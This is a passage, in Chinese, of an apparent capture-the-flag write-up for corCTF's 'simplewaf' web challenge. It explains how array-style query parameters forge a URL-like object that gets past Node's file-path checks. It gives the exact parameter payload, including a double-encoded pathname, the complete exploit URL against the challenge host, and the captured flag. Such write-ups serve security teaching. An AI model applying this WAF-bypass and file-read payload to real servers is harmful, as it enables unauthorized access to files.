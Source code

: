 ![](https://i.imgur.com/6yxqATm.png)

在 `isURLInstance` 程式碼中，可以看到僅僅是檢查 href 和 origin attribute 存在，這部分可以直接用 array parameter 偽造掉

而在 protocol 檢測的部分，也如同上面直接使用 array parameter 處理掉

而 `url.hostname` 的部分，也如同上面所述

![](https://i.imgur.com/0AF8Hhi.png)

最後在 `ValidatePath` 的部分，會檢查 path 的型態是否為 string 或 uint8 array，也會檢查是否為空

而根據程式邏輯，這邊會接收到 `decodeURIComponent` 回傳的東西，預期是 string，所以這邊檢測不需要理會

綜合以上，需要的 parameter 如下設定

```
file[href]=<隨便>
file[origin]=<隨便>
file[protocol]=file:
file[pathname]=fl%2561g.txt
file[hostname]
```

在 `file[pathname]` 的部分為了避免自動做的 url decode，需要做 double encode

完整網址如下:

`https://web-simplewaf-14c798d22182576e.be.ax?file[href]=a&file[origin]=b&file[protocol]=file:&file[pathname]=fl%2561g.txt&file[hostname]`

corctf{hmm_th4t_waf_w4snt_s0_s1mple}